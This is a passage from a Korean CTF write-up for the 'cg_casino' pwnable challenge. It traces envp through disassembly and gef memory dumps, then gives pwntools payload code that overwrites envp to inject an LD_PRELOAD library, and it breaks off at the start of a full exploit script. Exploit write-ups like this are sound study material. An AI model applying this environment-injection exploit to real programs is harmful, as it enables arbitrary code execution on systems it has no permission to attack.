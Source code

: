 여기에서 `system()`을 사용할 때 내부적으로 `execve()`가 호출되는데 이 과정에서 `**envp`가 전달되는 것 같다.

`**envp`는 `main()`이 호출될 때 3번째 인자로 전달되고, `main()`의 초반에서 다음과 같이 `$rbp-0x88`에 저장이 된다.
```
   0x400ca6:    push   rbp
   0x400ca7:    mov    rbp,rsp
   0x400caa:    sub    rsp,0x90
   0x400cb1:    mov    DWORD PTR [rbp-0x74],edi
   0x400cb4:    mov    QWORD PTR [rbp-0x80],rsi
   0x400cb8:    mov    QWORD PTR [rbp-0x88],rdx
```
이 상태에서 메모리를 따라가보면,
``` bash
gef➤  x/gx $rbp-0x88
0x7fffffffdf28: 0x00007fffffffe0a8
gef➤  x/10gx 0x00007fffffffe0a8
0x7fffffffe0a8: 0x00007fffffffe276      0x00007fffffffe2b8
0x7fffffffe0b8: 0x00007fffffffe2ce      0x00007fffffffe564
0x7fffffffe0c8: 0x00007fffffffe7fa      0x00007fffffffea90
0x7fffffffe0d8: 0x00007fffffffed26      0x00007fffffffefbc
0x7fffffffe0e8: 0x00007fffffffefc7      0x0000000000000000
gef➤  x/s 0x00007fffffffe276
0x7fffffffe276: "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"
```
`**envp(0x7fffffffdf28)` -> `*envp(0x7fffffffe0a8)` -> `first envp(0x7fffffffe276)` 형식으로 구성되어있다.

따라서 이 구성을 잘 따르되, `*envp`의 끝에는 `null`을 꼭 넣어주어야 한다.
``` python
    payload = b"\x00" * (env_p_p - buf)
    payload += p64(env_p)
    payload += b"\x00" * (env_p - buf - len(payload))
    payload += p64(env)
    payload += b"\x00" * (env - buf - len(payload))
    payload += b"LD_PRELOAD=/home/cg_casino/voucher/mylib.so\x00"
    put_voucher(s, payload)

    s.sendline(b"5")
```
문제는 여기서 환경변수가 stack의 끝자락에 위치하게 되는데, 이 offset이 일정하지 않아서 확률 이슈가 발생한다.

차이를 계속 체크해보니 `0xXX0` 정도 차이가 나는 것으로 보아 1/256 확률로 exploit이 성공할 것 같다.
## 0x03. Payload
``` python
from pwn import *
from pwnlib.util.packing import p32, p64, u32, u64
from time import sleep
import sys, os

DEBUG = False
BINARY = "cg_casino"
CONTAINER = "d20ec1bc9a88"

bp = {
    "getchar_of_main" : 0x400CF8,
    "read_bof" : 0x401108,
    "xstat_unlink" : 0x400F09,
    "slotmachine" : 0x401477,
    "lotto" : 0x4011A7,
    "scanf_of_lotto" : 0x40129D,
}

gs = f'''
set follow-fork-mode child
!b *{bp["xstat_unlink"]}
b *{bp["getchar_of_main"]}
```